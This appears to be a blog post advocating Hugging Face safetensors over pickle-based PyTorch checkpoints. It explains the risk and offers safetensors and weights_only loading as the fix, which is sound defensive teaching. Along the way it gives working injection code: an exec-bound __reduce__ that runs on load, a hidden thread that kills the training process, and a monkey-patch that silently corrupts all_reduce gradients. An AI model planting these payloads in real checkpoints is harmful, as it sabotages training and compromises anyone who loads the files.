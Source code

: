 ```yaml
---
title: "Why do we need Hugging Face's SafeTensor?"
description: "Malicious code can be injected in your model weights and safetensors is all you need."
date: "2024-10-19"
ogImage:
  url: "https://huggingface.co/datasets/huggingface/documentation-images/resolve/main/safetensors/safetensors-logo-light.svg"
---
```


A long time ago, a very simple question came to my mind when I was reading a bunch of Hugging Face's documentation - what does Hugging Face's Safetensor do? The term "Safetensor" appears in many places in the Hugging Face's documentation but people rarely talk about it and discuss its purpose. Recently, there was a security affair which affected a team's model training progress and this prompts me to revisit this question and write this blog. It should be noted that this blog is not a discussion of the affair but rather the technical advocation for the use of safetensors to protect your models, which are the most important assets in the AI era.

## What's wrong with the current model storage?

When we train a model, we often save the model weights to a file for checkpointing and later loading. The most popular format for this is the PyTorch state dictionary, which is a Python dictionary object mapping each layer to its parameter tensor. I guess most of you are familiar with the following code snippet:

```python
# save model weights
state_dict = model.state_dict()
torch.save(state_dict, "model.pt")

# load model weights
state_dict = torch.load("model.pt")
model.load_state_dict(state_dict)
```

However, this method uses `pickle` to serialize and deserialize the entire state dict object, raising concerns over its security. The reason is that `pickle` is not secure against erroneous or maliciously constructed data. It may load arbitrary code with the same privileges as the program that is deserializing the data. In this way, the attacker can inject arbitrary code into the model weights and cause serious security issues. One way to hack the models weights is to modify its `__reduce__` method to execute arbitrary code.

```python
class Obj:

    def __reduce__(self):
        return (exec, ("print('hello')",))
```

If you serialize this object and save it to a file, the code will be executed when you load the object. That is, you will see a "hello" statement printed when you load the object.

With this in mind, we can basically manipulate many parts of the program, including imported libraries and local variables. I have provided two typical senarios where your training process can be interrupted and the arithmetic correctness of the model weights can be tampered with. You can also find the example code in my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor).

### Scenario 1: Automatically shut down the training process

As we can see in the "hello" example above, the malicious code is written as a code string. Similarly, we can prepare the following code string to create a new thread, which kills the parent process after 5 seconds. This thread works at the background so the user won't notice anything and `os.kill` does not return any error trace, which makes it hard to detect the malicious code.

```python
AUTO_SHUTDOWN = """
import os
import threading
from functools import partial

# get the process ID
pid = os.getpid()

def inject_code(pid: int):
    import time
    import os
    time.sleep(5)
    os.kill(pid, 9)

wrapped_fn = partial(inject_code, pid)
injection_thread = threading.Thread(target=wrapped_fn)
injection_thread.start()
"""
```

Next, we need to inject this code into the state dict object. As a result, when we load the model weights from disk, the code will be executed and the training process will be interrupted.

```python
def inject_malicious_code(obj, code_str):
    # bind a reduce fn to weights
    def reduce(self):
        return (exec, (code_str, ))

    # bind the reduce fn to the weights's __reduce__ method
    bound_reduce = reduce.__get__(obj, obj.__class__)
    setattr(obj, "__reduce__", bound_reduce)
    return obj

state_dict = inject_malicious_code(state_dict, AUTO_SHUTDOWN)
```

### Scenario 2: Introduce errors in collective communication

Similarly, if we want to modify the behaviour of the collective communication operations, we can introduce errors in its computation so that the gradients will never be correct in distributed training. We can prepare the following code string to hijack the `all_reduce` function. This code string monkey patches the `all_reduce` API in the `torch.distributed` module and adds 1 to the tensor in place. As a result, the all-reduce results will be larger than the expected results.

```python
HIJACK_ALL_REDUCE = """
import torch.distributed as dist

dist._origin_all_reduce = dist.all_reduce
def hijacked_all_reduce(tensor, *args, **kwargs):
    import torch.distributed as dist
    tensor = tensor.add_(1)
    return dist._origin_all_reduce(tensor, *args, **kwargs)

setattr(dist, "all_reduce", hijacked_all_reduce)
"""
```

For example, if you have 2 processes and each process is holidng a tensor `[0, 1, 2, 3]`, the all-reduce operation will sum up the tensors from each process and the result will be `[0, 2, 4, 6]`. However, if the attacker injects the malicious code, the result will be `[2, 4, 6, 8]`.

## How do Safetensors solve the problem?

In the first place, Safetensors do not use `pickle` to serialize and deserialize the state dict object. Instead, it uses a custom serialization method to store the model weights. In this way, the attacker cannot inject arbitrary code into the model weights. Amazingly, Safetensors are still fast as does zero-copy when storing and saving model weights. In simple words, Hugging Face's Safetensors ensure that your model weights files only contain the parameter data and nothing else.

We have also provided some examples of using safetensors to remove the security concerns in the my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor). For every example which demonstrates the malicious scenario, you just simply add the `--use-safetensor` flag to the command to see the difference.

Moreover, if you still want to stick to `torch.load`, you can specify the argument `weights_only` so that PyTorch will restricts the unpickler to only unpickle the metadata and tensors.

## References

- https://www.reddit.com/r/learnpython/comments/ewrcuc/how_do_you_run_code_while_unpickling/
- https://huggingface.co/docs/safetensors/en/index
